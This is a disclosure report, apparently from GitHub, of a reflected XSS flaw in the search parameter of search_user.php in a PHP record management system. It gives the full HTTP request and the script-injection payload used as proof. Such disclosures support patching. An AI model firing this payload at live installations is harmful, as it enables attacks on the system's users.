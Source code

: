 #### BUG_AUTHOR:acmglz
# Record management system – reflected XSS on (search_user.php search parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
search_user.php

On this page, search parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
## Request:
```
POST http://192.168.0.100/Personnel_record_management_system/search_user.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 52
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/search_user.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

search=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
## Payload：
```
"><script>alert(1)</script>
```
<img width="416" alt="image" src="https://github.com/user-attachments/assets/834a2420-d5a0-4366-a6e0-f707458818a7">

## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/10d6d34b-0c06-41c0-8de3-96924fc45b4f">
